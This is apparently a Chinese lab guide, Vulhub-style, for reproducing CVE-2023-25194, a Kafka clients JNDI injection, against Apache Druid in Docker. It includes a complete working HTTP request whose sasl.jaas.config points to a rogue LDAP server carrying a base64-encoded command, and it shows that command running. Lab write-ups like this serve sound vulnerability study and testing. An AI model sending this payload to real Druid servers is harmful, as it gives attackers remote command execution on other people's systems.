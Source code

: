 # Apache Kafka Clients JNDI注入漏洞 (CVE-2023-25194)

Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。

在版本3.3.2及以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。

由于这个漏洞是存在于Java库kafka-clients中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。

这个软件就是Apache Druid，其使用kafka-clients来连接Kafka作为其数据源之一。这篇指南就来演示如何利用CVE-2023-25194来攻击Apache Druid。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 漏洞环境

执行如下命令启动一个Apache Druid 25.0.0服务，其内部使用的kafka-clients版本是3.3.1：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

## 漏洞复现

首先，使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)启动一个恶意的JNDI服务器：

![](1.png)

可见，这个工具给出了很多利用方法，我们使用`ldap://roguo-jndi-server:1389/Basic/Command/Base64/[base64_encoded_cmd]`，将命令`id > /tmp/success`编码后放在URL中。

将这个恶意LDAP URL放在下面这个请求中，并发送：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

进入容器后可见`id > /tmp/success`已经成功执行：

![](3.png)